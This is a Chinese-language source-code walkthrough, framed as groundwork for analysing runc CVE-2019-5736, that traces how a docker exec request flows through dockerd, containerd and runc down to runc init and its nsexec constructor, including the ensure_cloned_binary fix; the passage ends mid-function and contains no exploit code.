


# docker-runc(CVE-2019-5736)漏洞分析


> runc: 1.0-rc93
## 0x00 docker-containerd-shim 调用runc

`components/cli/cli/command/container/exec.go`中执行`runExec()`

<span id="runExec"></span>
```go
func runExec(dockerCli command.Cli, options execOptions) error {
    ...

    response, err := client.ContainerExecCreate(ctx, options.container, *execConfig)
    if err != nil {
        return err
    }

    execID := response.ID
    if execID == "" {
        return errors.New("exec ID empty")
    }

    if execConfig.Detach {
        execStartCheck := types.ExecStartCheck{
            Detach: execConfig.Detach,
            Tty:    execConfig.Tty,
        }
        return client.ContainerExecStart(ctx, execID, execStartCheck)
    }
    return interactiveExec(ctx, dockerCli, execConfig, execID)
}
```

`runExec()`中调用`client.ContainerExecCreate()`创建执行用户命令的容器，并获取ID。然后再根据命令参数选择是否进行attach操作。

被调用的`ContainerExecCreate()`定义于`components/engine/client/container_exec.go`中。该函数向服务端发出了请求。

<span id="post"></span>
```go
// ContainerExecCreate creates a new exec configuration to run an exec process.
func (cli *Client) ContainerExecCreate(ctx context.Context, container string, config types.ExecConfig) (types.IDResponse, error) {
    var response types.IDResponse

    if err := cli.NewVersionError("1.25", "env"); len(config.Env) != 0 && err != nil {
        return response, err
    }

    resp, err := cli.post(ctx, "/containers/"+container+"/exec", nil, config, nil)
    defer ensureReaderClosed(resp)
    if err != nil {
        return response, err
    }
    err = json.NewDecoder(resp.body).Decode(&response)
    return response, err
}
```

服务端的启动流程应该是这样的:
- `components/engine/cmd/dockerd/docker.go`中`main()`函数被执行
- `main()`函数调用`newDaemonCommand()`函数
- `newDaemonCommand()`函数调用`runDaemon()`(`components/engine/cmd/dockerd/docker_unix.go#11`)

    ```go
    func runDaemon(opts *daemonOptions) error {
        daemonCli := NewDaemonCli()
        return daemonCli.start(opts)
    }
    ```

- `daemonCli.start(opts)`调用`func (cli *DaemonCli) start()`函数(`components/engine/cmd/dockerd/daemon.go#77`)

服务端的分析从`start()`函数开始

```go
func (cli *DaemonCli) start(opts *daemonOptions) (err error) {
    ...
    //定义api
    cli.api = apiserver.New(serverConfig)

    ...
    //创建Daemon进程
    d, err := daemon.NewDaemon(ctx, cli.Config, pluginStore)
    if err != nil {
        return errors.Wrap(err, "failed to start daemon")
    }

    d.StoreHosts(hosts)

    // validate after NewDaemon has restored enabled plugins. Don't change order.
    if err := validateAuthzPlugins(cli.Config.AuthorizationPlugins, pluginStore); err != nil {
        return errors.Wrap(err, "failed to validate authorization plugin")
    }

    cli.d = d

    if err := startMetricsServer(cli.Config.MetricsAddress); err != nil {
        return errors.Wrap(err, "failed to start metrics server")
    }

    c, err := createAndStartCluster(cli, d)
    if err != nil {
        logrus.Fatalf("Error starting cluster component: %v", err)
    }

    // Restart all autostart containers which has a swarm endpoint
    // and is not yet running now that we have successfully
    // initialized the cluster.
    d.RestartSwarmContainers()

    logrus.Info("Daemon has completed initialization")

    //创建路由信息
    routerOptions, err := newRouterOptions(cli.Config, d)
    if err != nil {
        return err
    }
    routerOptions.api = cli.api
    routerOptions.cluster = c
    //初始化路由
    initRouter(routerOptions)

    go d.ProcessClusterNotifications(ctx, c.GetWatchStream())

    cli.setupConfigReloadTrap()

    // The serve API routine never exits unless an error occurs
    // We need to start it as a goroutine and wait on it so
    // daemon doesn't exit
    serveAPIWait := make(chan error)
    go cli.api.Wait(serveAPIWait)

    // after the daemon is done setting up we can notify systemd api
    notifyReady()

    // Daemon is fully initialized and handling API traffic
    // Wait for serve API to complete
    errAPI := <-serveAPIWait
    c.Cleanup()
    
    //关闭Daemon进程
    // notify systemd that we're shutting down
    notifyStopping()
    shutdownDaemon(d)

    // Stop notification processing and any background processes
    cancel()

    if errAPI != nil {
        return errors.Wrap(errAPI, "shutting down due to ServeAPI error")
    }

    logrus.Info("Daemon shutdown complete")
    return nil
}
```

再去看`initRouter(routerOptions)`函数

```go
func initRouter(opts routerOptions) {
    ...
    routers := []router.Router{
        // we need to add the checkpoint router before the container router or the DELETE gets masked
        checkpointrouter.NewRouter(opts.daemon, decoder),
        container.NewRouter(opts.daemon, decoder, opts.daemon.RawSysInfo(true).CgroupUnified),
        image.NewRouter(opts.daemon.ImageService()),
        systemrouter.NewRouter(opts.daemon, opts.cluster, opts.buildkit, opts.features),
        volume.NewRouter(opts.daemon.VolumesService()),
        build.NewRouter(opts.buildBackend, opts.daemon, opts.features),
        sessionrouter.NewRouter(opts.sessionManager),
        swarmrouter.NewRouter(opts.cluster),
        pluginrouter.NewRouter(opts.daemon.PluginManager()),
        distributionrouter.NewRouter(opts.daemon.ImageService()),
    }

    ...
    opts.api.InitRouter(routers...)
}
```

`InitRouter()`函数被调用，它会将传入的routers信息添加到Server.routers中。


```go
serveAPIWait := make(chan error)
go cli.api.Wait(serveAPIWait)
```

这里的`Wait()`函数调用的是`components/engine/api/server/server.go`中的`Wait()`函数。`Wait()->s.serverAPI()->s.createMux()`

```go
// Wait blocks the server goroutine until it exits.
// It sends an error message if there is any error during
// the API execution.
func (s *Server) Wait(waitChan chan error) {
    if err := s.serveAPI(); err != nil {
        logrus.Errorf("ServeAPI error: %v", err)
        waitChan <- err
        return
    }
    waitChan <- nil
}


// serveAPI loops through all initialized servers and spawns goroutine
// with Serve method for each. It sets createMux() as Handler also.
func (s *Server) serveAPI() error {
    var chErrors = make(chan error, len(s.servers))
    for _, srv := range s.servers {
        srv.srv.Handler = s.createMux()
        go func(srv *HTTPServer) {
            var err error
            logrus.Infof("API listen on %s", srv.l.Addr())
            if err = srv.Serve(); err != nil && strings.Contains(err.Error(), "use of closed network connection") {
                err = nil
            }
            chErrors <- err
        }(srv)
    }

    for range s.servers {
        err := <-chErrors
        if err != nil {
            return err
        }
    }
    return nil
}

// createMux initializes the main router the server uses.
func (s *Server) createMux() *mux.Router {
    m := mux.NewRouter()
    
    logrus.Debug("Registering routers")
    //遍历之前传入的routers变量，注册路由
    for _, apiRouter := range s.routers {
        for _, r := range apiRouter.Routes() {
            f := s.makeHTTPHandler(r.Handler())

            logrus.Debugf("Registering %s, %s", r.Method(), r.Path())
            m.Path(versionMatcher + r.Path()).Methods(r.Method()).Handler(f)
            m.Path(r.Path()).Methods(r.Method()).Handler(f)
        }
    }

    debugRouter := debug.NewRouter()
    s.routers = append(s.routers, debugRouter)
    for _, r := range debugRouter.Routes() {
        f := s.makeHTTPHandler(r.Handler())
        m.Path("/debug" + r.Path()).Handler(f)
    }

    notFoundHandler := httputils.MakeErrorHandler(pageNotFoundError{})
    m.HandleFunc(versionMatcher+"/{path:.*}", notFoundHandler)
    m.NotFoundHandler = notFoundHandler
    m.MethodNotAllowedHandler = notFoundHandler

    return m
}
```

容器类的路由信息在`components/engine/api/server/router/container/container.go`的`initRoutes()`函数中可以看到

```go
// initRoutes initializes the routes in container router
func (r *containerRouter) initRoutes() {
    r.routes = []router.Route{
        // HEAD
        router.NewHeadRoute("/containers/{name:.*}/archive", r.headContainersArchive),
        // GET
        router.NewGetRoute("/containers/json", r.getContainersJSON),
        router.NewGetRoute("/containers/{name:.*}/export", r.getContainersExport),
        router.NewGetRoute("/containers/{name:.*}/changes", r.getContainersChanges),
        router.NewGetRoute("/containers/{name:.*}/json", r.getContainersByName),
        router.NewGetRoute("/containers/{name:.*}/top", r.getContainersTop),
        router.NewGetRoute("/containers/{name:.*}/logs", r.getContainersLogs),
        router.NewGetRoute("/containers/{name:.*}/stats", r.getContainersStats),
        router.NewGetRoute("/containers/{name:.*}/attach/ws", r.wsContainersAttach),
        router.NewGetRoute("/exec/{id:.*}/json", r.getExecByID),
        router.NewGetRoute("/containers/{name:.*}/archive", r.getContainersArchive),
        // POST
        router.NewPostRoute("/containers/create", r.postContainersCreate),
        router.NewPostRoute("/containers/{name:.*}/kill", r.postContainersKill),
        router.NewPostRoute("/containers/{name:.*}/pause", r.postContainersPause),
        router.NewPostRoute("/containers/{name:.*}/unpause", r.postContainersUnpause),
        router.NewPostRoute("/containers/{name:.*}/restart", r.postContainersRestart),
        router.NewPostRoute("/containers/{name:.*}/start", r.postContainersStart),
        router.NewPostRoute("/containers/{name:.*}/stop", r.postContainersStop),
        router.NewPostRoute("/containers/{name:.*}/wait", r.postContainersWait),
        router.NewPostRoute("/containers/{name:.*}/resize", r.postContainersResize),
        router.NewPostRoute("/containers/{name:.*}/attach", r.postContainersAttach),
        router.NewPostRoute("/containers/{name:.*}/copy", r.postContainersCopy), // Deprecated since 1.8, Errors out since 1.12
        router.NewPostRoute("/containers/{name:.*}/exec", r.postContainerExecCreate),
        router.NewPostRoute("/exec/{name:.*}/start", r.postContainerExecStart),
        router.NewPostRoute("/exec/{name:.*}/resize", r.postContainerExecResize),
        router.NewPostRoute("/containers/{name:.*}/rename", r.postContainerRename),
        router.NewPostRoute("/containers/{name:.*}/update", r.postContainerUpdate),
        router.NewPostRoute("/containers/prune", r.postContainersPrune),
        router.NewPostRoute("/commit", r.postCommit),
        // PUT
        router.NewPutRoute("/containers/{name:.*}/archive", r.putContainersArchive),
        // DELETE
        router.NewDeleteRoute("/containers/{name:.*}", r.deleteContainers),
    }
}
```

再结合之前docker-client发送的[post请求信息](#post)，Daemon会执行`r.postContainerExecCreate`。

```go
func (s *containerRouter) postContainerExecCreate(ctx context.Context, w http.ResponseWriter, r *http.Request, vars map[string]string) error {
    ...
    
    // Register an instance of Exec in container.
    id, err := s.backend.ContainerExecCreate(name, execConfig)
    if err != nil {
        logrus.Errorf("Error setting up exec command in container %s: %v", name, err)
        return err
    }

    return httputils.WriteJSON(w, http.StatusCreated, &types.IDResponse{
        ID: id,
    })
}
```

`postContainerExecCreate()`函数再调用`components/engine/daemon/exec.go`中的`ContainerExecCreate()`，该函数会注册execConfig信息

```go
// ContainerExecCreate sets up an exec in a running container.
func (daemon *Daemon) ContainerExecCreate(name string, config *types.ExecConfig) (string, error) {
    ...

    execConfig := exec.NewConfig()
    execConfig.OpenStdin = config.AttachStdin
    execConfig.OpenStdout = config.AttachStdout
    execConfig.OpenStderr = config.AttachStderr
    execConfig.ContainerID = cntr.ID
    execConfig.DetachKeys = keys
    execConfig.Entrypoint = entrypoint
    execConfig.Args = args
    execConfig.Tty = config.Tty
    execConfig.Privileged = config.Privileged
    execConfig.User = config.User
    execConfig.WorkingDir = config.WorkingDir

    ...

    return execConfig.ID, nil
}
```

再结合之前的[runExec函数](#runExec)，该函数创建容器之后，根据是否attach会最终执行`components/cli/vendor/github.com/docker/docker/client/container_exec.go`中的下面两个函数之一，这两个函数都是发送`"/exec/"+execID+"/start"`请求，因此`r.postContainerExecStart()`会被执行。

```go
// ContainerExecStart starts an exec process already created in the docker host.
func (cli *Client) ContainerExecStart(ctx context.Context, execID string, config types.ExecStartCheck) error {
    resp, err := cli.post(ctx, "/exec/"+execID+"/start", nil, config, nil)
    ensureReaderClosed(resp)
    return err
}

// ContainerExecAttach attaches a connection to an exec process in the server.
// It returns a types.HijackedConnection with the hijacked connection
// and the a reader to get output. It's up to the called to close
// the hijacked connection by calling types.HijackedResponse.Close.
func (cli *Client) ContainerExecAttach(ctx context.Context, execID string, config types.ExecStartCheck) (types.HijackedResponse, error) {
    headers := map[string][]string{"Content-Type": {"application/json"}}
    return cli.postHijacked(ctx, "/exec/"+execID+"/start", nil, config, headers)
}
```

```go
// TODO(vishh): Refactor the code to avoid having to specify stream config as part of both create and start.
func (s *containerRouter) postContainerExecStart(ctx context.Context, w http.ResponseWriter, r *http.Request, vars map[string]string) error {
    ...

    // Now run the user process in container.
    // Maybe we should we pass ctx here if we're not detaching?
    if err := s.backend.ContainerExecStart(context.Background(), execName, stdin, stdout, stderr); err != nil {
        if execStartCheck.Detach {
            return err
        }
        stdout.Write([]byte(err.Error() + "\r\n"))
        logrus.Errorf("Error running exec %s in container: %v", execName, err)
    }
    return nil
}
```

`postContainerExecStart()`再调用`ContainerExecStart()`(`components/engine/daemon/exec.go#153`)去启动容器。

```go
// ContainerExecStart starts a previously set up exec instance. The
// std streams are set up.
// If ctx is cancelled, the process is terminated.
func (daemon *Daemon) ContainerExecStart(ctx context.Context, name string, stdin io.Reader, stdout io.Writer, stderr io.Writer) (err error) {
    ...
    //通过containerd执行命令
    systemPid, err := daemon.containerd.Exec(ctx, c.ID, ec.ID, p, cStdin != nil, ec.InitializeStdio)
    ...
}
```

containerd再继续通过containerd-shim调用runc，最终执行runc run

## 0x01 容器之外的runc进程启动

main函数中创建了新的app对象(`main.go#54`)

```go
func main() {
    app := cli.NewApp()
    app.Name = "runc"
    app.Usage = usage
    ...
    if err := app.Run(os.Args); err != nil {
        fatal(err)
    }
}
```

`app.Run()`会调用`run.go`中定义的Action(`run.go#65`)，进而调用`startContainer()`函数。

```go
Action: func(context *cli.Context) error {
    if err := checkArgs(context, 1, exactArgs); err != nil {
        return err
    }
    if err := revisePidFile(context); err != nil {
        return err
    }
    spec, err := setupSpec(context)
    if err != nil {
        return err
    }
    status, err := startContainer(context, spec, CT_ACT_RUN, nil)
    if err == nil {
        // exit with the container's exit status so any external supervisor is
        // notified of the exit with the correct exit status.
        os.Exit(status)
    }
    return err
},
```

startContainer()函数(`utils_linux.go#265`)创建容器信息，并启动容器

```go
func startContainer(context *cli.Context, spec *specs.Spec, action CtAct, criuOpts *libcontainer.CriuOpts) (int, error) {
    ...
    //创建容器信息
    container, err := createContainer(context, id, spec)
    if err != nil {
        return -1, err
    }

    ...
    //创建r变量，调用r.run()启动容器
    r := &runner{
        enableSubreaper: !context.Bool("no-subreaper"),
        shouldDestroy:   true,
        container:       container,
        listenFDs:       listenFDs,
        notifySocket:    notifySocket,
        consoleSocket:   context.String("console-socket"),
        detach:          context.Bool("detach"),
        pidFile:         context.String("pid-file"),
        preserveFDs:     context.Int("preserve-fds"),
        action:          action,
        criuOpts:        criuOpts,
        init:            true,
        logLevel:        logLevel,
    }
    return r.run(spec.Process)
}
```

先来看`createContainer()`函数

```go
func createContainer(context *cli.Context, id string, spec *specs.Spec) (libcontainer.Container, error) {
    rootlessCg, err := shouldUseRootlessCgroupManager(context)
    if err != nil {
        return nil, err
    }
    config, err := specconv.CreateLibcontainerConfig(&specconv.CreateOpts{
        CgroupName:       id,
        UseSystemdCgroup: context.GlobalBool("systemd-cgroup"),
        NoPivotRoot:      context.Bool("no-pivot"),
        NoNewKeyring:     context.Bool("no-new-keyring"),
        Spec:             spec,
        RootlessEUID:     os.Geteuid() != 0,
        RootlessCgroups:  rootlessCg,
    })
    if err != nil {
        return nil, err
    }

    factory, err := loadFactory(context)
    if err != nil {
        return nil, err
    }
    return factory.Create(id, config)
}

// loadFactory returns the configured factory instance for execing containers.
func loadFactory(context *cli.Context) (libcontainer.Factory, error) {
    ...

    return libcontainer.New(abs, cgroupManager, intelRdtManager,
        libcontainer.CriuPath(context.GlobalString("criu")),
        libcontainer.NewuidmapPath(newuidmap),
        libcontainer.NewgidmapPath(newgidmap))
}

// New returns a linux based container factory based in the root directory and
// configures the factory with the provided option funcs.
func New(root string, options ...func(*LinuxFactory) error) (Factory, error) {
    if root != "" {
        if err := os.MkdirAll(root, 0o700); err != nil {
            return nil, newGenericError(err, SystemError)
        }
    }
    l := &LinuxFactory{
        Root:      root,
        InitPath:  "/proc/self/exe",
        // 这里的结果就 InitArgs: "runc init"
        InitArgs:  []string{os.Args[0], "init"},
        Validator: validate.New(),
        CriuPath:  "criu",
    }
    Cgroupfs(l)
    for _, opt := range options {
        if opt == nil {
            continue
        }
        if err := opt(l); err != nil {
            return nil, err
        }
    }
    return l, nil
}
```

`createContainer()`函数的执行逻辑为：
- 调用`loadFactory()`函数，获取`LinuxFactory`类型对象
- 调用该类型的Create函数

所以来分析`LinuxFactory`类型的`Create()`函数，可以看到其创建了`linuxContainer`类型对象并将其返回。所以`startContainer()`函数中的`container`变量类型为`linuxContainer`（这与后续的`r.run()`函数有关）。

```go
func (l *LinuxFactory) Create(id string, config *configs.Config) (Container, error) {
    ...
    c := &linuxContainer{
        id:            id,
        root:          containerRoot,
        config:        config,
        initPath:      l.InitPath,
        initArgs:      l.InitArgs,
        criuPath:      l.CriuPath,
        newuidmapPath: l.NewuidmapPath,
        newgidmapPath: l.NewgidmapPath,
        cgroupManager: l.NewCgroupsManager(config.Cgroups, nil),
    }
    ...
    return c, nil
}
```

`r.run()`函数(`utils_linux.go#265`)启动容器，其中包含两个关键逻辑，分别是`newProcess()`函数与`r.container.Run()`。
- `newProcess()`函数创建逻辑上的容器进程
- `r.container.Run()`运行该容器
在之前的分析结果中，r.container为`linuxContainer`，所以`r.container.Run()`调用的是`linuxContainer.Run()`方法(`libcontainer/container_linux.go#273`)。

```go
func (r *runner) run(config *specs.Process) (int, error) {
    var err error
    defer func() {
        if err != nil {
            r.destroy()
        }
    }()
    if err = r.checkTerminal(config); err != nil {
        return -1, err
    }
    //newProcess()创建容器进程
    process, err := newProcess(*config, r.init, r.logLevel)
    if err != nil {
        return -1, err
    }
    ...

    switch r.action {
    case CT_ACT_CREATE:
        err = r.container.Start(process)
    case CT_ACT_RESTORE:
        err = r.container.Restore(process, r.criuOpts)
    //在runc run情况下，r.action为CT_ACT_RUN，所以会执行此处逻辑
    case CT_ACT_RUN:
        err = r.container.Run(process)
    default:
        panic("Unknown action")
    }
    ...
    status, err := handler.forward(process, tty, detach)
    if err != nil {
        r.terminate(process)
    }
    if detach {
        return 0, nil
    }
    if err == nil {
        r.destroy()
    }
    return status, err
}
```

首先来看`newProcess()`(`utils_linux.go#102`)函数

```go
// newProcess returns a new libcontainer Process with the arguments from the
// spec and stdio from the current process.
func newProcess(p specs.Process, init bool, logLevel string) (*libcontainer.Process, error) {
    //创建libcontainer.process对象
    lp := &libcontainer.Process{
        Args: p.Args,
        Env:  p.Env,
        // TODO: fix libcontainer's API to better support uid/gid in a typesafe way.
        User:            fmt.Sprintf("%d:%d", p.User.UID, p.User.GID),
        Cwd:             p.Cwd,
        Label:           p.SelinuxLabel,
        NoNewPrivileges: &p.NoNewPrivileges,
        AppArmorProfile: p.ApparmorProfile,
        Init:            init,
        LogLevel:        logLevel,
    }

    //定义consoleSize和Capabilities？(此处操作敏感点？)
    if p.ConsoleSize != nil {
        lp.ConsoleWidth = uint16(p.ConsoleSize.Width)
        lp.ConsoleHeight = uint16(p.ConsoleSize.Height)
    }

    if p.Capabilities != nil {
        lp.Capabilities = &configs.Capabilities{}
        lp.Capabilities.Bounding = p.Capabilities.Bounding
        lp.Capabilities.Effective = p.Capabilities.Effective
        lp.Capabilities.Inheritable = p.Capabilities.Inheritable
        lp.Capabilities.Permitted = p.Capabilities.Permitted
        lp.Capabilities.Ambient = p.Capabilities.Ambient
    }
    for _, gid := range p.User.AdditionalGids {
        lp.AdditionalGroups = append(lp.AdditionalGroups, strconv.FormatUint(uint64(gid), 10))
    }
    for _, rlimit := range p.Rlimits {
        rl, err := createLibContainerRlimit(rlimit)
        if err != nil {
            return nil, err
        }
        lp.Rlimits = append(lp.Rlimits, rl)
    }
    return lp, nil
}
```

创建容器之后，`r.container.Run()`运行该容器。

```go
func (c *linuxContainer) Run(process *Process) error {
    if err := c.Start(process); err != nil {
        return err
    }
    if process.Init {
        return c.exec()
    }
    return nil
}
```

`linuxContainer.Run()`先调用`linuxContainer.Start()`，再调用`linuxContainer.exec()`函数。`linuxContainer.Start(`)是对`linuxContainer.start()`的包装。

`linuxContainer.start()`又调用`linuxContainer.newParentProcess()`创建进程并启动。

所以此处的调用链为`linuxContainer.Run() -> linuxContainer.Start() -> linuxContainer.start() -> linuxContainer.newParentProcess()`

```go
func (c *linuxContainer) Start(process *Process) error {
    c.m.Lock()
    defer c.m.Unlock()
    if c.config.Cgroups.Resources.SkipDevices {
        return newGenericError(errors.New("can't start container with SkipDevices set"), ConfigInvalid)
    }
    if process.Init {
        if err := c.createExecFifo(); err != nil {
            return err
        }
    }
    //实际上调用start()函数
    if err := c.start(process); err != nil {
        if process.Init {
            c.deleteExecFifo()
        }
        return err
    }
    return nil
}
...
func (c *linuxContainer) start(process *Process) (retErr error) {
    //创建process的父进程
    parent, err := c.newParentProcess(process)
    if err != nil {
        return newSystemErrorWithCause(err, "creating new parent process")
    }

    logsDone := parent.forwardChildLogs()
    if logsDone != nil {
        defer func() {
            // Wait for log forwarder to finish. This depends on
            // runc init closing the _LIBCONTAINER_LOGPIPE log fd.
            err := <-logsDone
            if err != nil && retErr == nil {
                retErr = newSystemErrorWithCause(err, "forwarding init logs")
            }
        }()
    }

    if err := parent.start(); err != nil {
        return newSystemErrorWithCause(err, "starting container process")
    }

    if process.Init {
        c.fifo.Close()
        if c.config.Hooks != nil {
            s, err := c.currentOCIState()
            if err != nil {
                return err
            }

            if err := c.config.Hooks[configs.Poststart].RunHooks(s); err != nil {
                if err := ignoreTerminateErrors(parent.terminate()); err != nil {
                    logrus.Warn(errorsf.Wrapf(err, "Running Poststart hook"))
                }
                return err
            }
        }
    }
    return nil
}
```

再来分析`linuxContainer.newParentProcess()`(`libcontainer/container_linux.go#472`)

```go
func (c *linuxContainer) newParentProcess(p *Process) (parentProcess, error) {
    //创建进程间通信的pipe
    parentInitPipe, childInitPipe, err := utils.NewSockPair("init")
    if err != nil {
        return nil, newSystemErrorWithCause(err, "creating new init pipe")
    }
    messageSockPair := filePair{parentInitPipe, childInitPipe}

    parentLogPipe, childLogPipe, err := os.Pipe()
    if err != nil {
        return nil, fmt.Errorf("Unable to create the log pipe:  %s", err)
    }
    logFilePair := filePair{parentLogPipe, childLogPipe}

    //通过pipe获取cmd
    cmd := c.commandTemplate(p, childInitPipe, childLogPipe)
    if !p.Init {
        return c.newSetnsProcess(p, cmd, messageSockPair, logFilePair)
    }

    // We only set up fifoFd if we're not doing a `runc exec`. The historic
    // reason for this is that previously we would pass a dirfd that allowed
    // for container rootfs escape (and not doing it in `runc exec` avoided
    // that problem), but we no longer do that. However, there's no need to do
    // this for `runc exec` so we just keep it this way to be safe.
    if err := c.includeExecFifo(cmd); err != nil {
        return nil, newSystemErrorWithCause(err, "including execfifo in cmd.Exec setup")
    }
    //执行newInitProcess()，返回进程对象
    return c.newInitProcess(p, cmd, messageSockPair, logFilePair)
}
```

接下来分析`linuxContainer.newInitProcess()`函数(`libcontainer/container_linux.go#540`)。

```go
func (c *linuxContainer) newInitProcess(p *Process, cmd *exec.Cmd, messageSockPair, logFilePair filePair) (*initProcess, error) {
    cmd.Env = append(cmd.Env, "_LIBCONTAINER_INITTYPE="+string(initStandard))
    nsMaps := make(map[configs.NamespaceType]string)
    for _, ns := range c.config.Namespaces {
        if ns.Path != "" {
            nsMaps[ns.Type] = ns.Path
        }
    }
    _, sharePidns := nsMaps[configs.NEWPID]
    data, err := c.bootstrapData(c.config.Namespaces.CloneFlags(), nsMaps)
    if err != nil {
        return nil, err
    }
    init := &initProcess{
        cmd:             cmd,
        messageSockPair: messageSockPair,
        logFilePair:     logFilePair,
        manager:         c.cgroupManager,
        intelRdtManager: c.intelRdtManager,
        config:          c.newInitConfig(p),
        container:       c,
        process:         p,
        bootstrapData:   data,
        sharePidns:      sharePidns,
    }
    c.initProcess = init
    return init, nil
    }
```

该函数创建`initProcess`类型对象并返回，所以`linuxContainer.start()`函数定义中的`parent`变量是`initProcess`类型，所以`parent.start()`调用的是`initProcess.start()`方法。

```go
func (p *initProcess) start() (retErr error) {
    defer p.messageSockPair.parent.Close()
    //启动runc init命令
    err := p.cmd.Start()
    ...
    //向parentPipe中写入bootstrapData，供runc init子进程读取
    if _, err := io.Copy(p.messageSockPair.parent, p.bootstrapData); err != nil {
    	return newSystemErrorWithCause(err, "copying bootstrap data to pipe")
    }
    ...
    //parseSync等待子进程回应
    ierr := parseSync(p.messageSockPair.parent, func(sync *syncT) error {
        ...
    }
}
```

该函数会启动`runc init`进程，并且等待子进程返回。

runc init指令被执行。`init.go`文件中引入了`nsenter`包，因此由于CGO的特性，以及`__attribute__((constructor))`修饰语，所以`nsexec()`函数会首先被执行，然后再执行`init.go`中的`StartInitialization()`函数。

```go
// +build linux,!gccgo

package nsenter

/*
#cgo CFLAGS: -Wall
extern void nsexec();
void __attribute__((constructor)) init(void) {
	nsexec();
}
*/
import "C"

```

nsexec()函数(`libcontainer/nsenter/nsexec.c#602`)会通过环境变量获取pipe描述符

```c
void nsexec(void)
{
    int pipenum;
    jmp_buf env;
    int sync_child_pipe[2], sync_grandchild_pipe[2];
    struct nlconfig_t config = { 0 };

    /*
     * Setup a pipe to send logs to the parent. This should happen
     * first, because bail will use that pipe.
     */
     //根据环境变量获取pipe
    setup_logpipe();

    /*
     * If we don't have an init pipe, just return to the go routine.
     * We'll only get an init pipe for start or exec.
     */
    pipenum = initpipe();
    if (pipenum == -1)
        return;

    /*
     * We need to re-exec if we are not in a cloned binary. This is necessary
     * to ensure that containers won't be able to access the host binary
     * through /proc/self/exe. See CVE-2019-5736.
     */
     //新增的修复代码，确保当前的二进制文件是已经复制过的，并且不是runc自身
    if (ensure_cloned_binary() < 0)
        bail("could not ensure we are a cloned binary");
    ...
}
```

`init.go`中的Action定义为

```go
var initCommand = cli.Command{
    Name:  "init",
    Usage: `initialize the namespaces and launch the process (do not call it outside of runc)`,
    Action: func(context *cli.Context) error {
        factory, _ := libcontainer.New("")
        if err := factory.StartInitialization(); err != nil {
            // as the error is sent back to the parent there is no need to log
            // or write it to stderr because the parent process will handle this
            os.Exit(1)
        }
        panic("libcontainer: container init failed to exec")
    },
}
```

`libcontainer.New("")`返回一个空的`linuxFactory`类型对象，因此这里会执行`linuxFactory`实现的`StartInitialization()`方法

```go
// StartInitialization loads a container by opening the pipe fd from the parent to read the configuration and state
// This is a low level implementation detail of the reexec and should not be consumed externally
func (l *LinuxFactory) StartInitialization() (err error) {
	// Get the INITPIPE.
	envInitPipe := os.Getenv("_LIBCONTAINER_INITPIPE")
	pipefd, err := strconv.Atoi(envInitPipe)
	if err != nil {
		return fmt.Errorf("unable to convert _LIBCONTAINER_INITPIPE=%s to int: %s", envInitPipe, err)
	}
	pipe := os.NewFile(uintptr(pipefd), "pipe")
	defer pipe.Close()

	// Only init processes have FIFOFD.
	fifofd := -1
	envInitType := os.Getenv("_LIBCONTAINER_INITTYPE")
	it := initType(envInitType)
	if it == initStandard {
		envFifoFd := os.Getenv("_LIBCONTAINER_FIFOFD")
		if fifofd, err = strconv.Atoi(envFifoFd); err != nil {
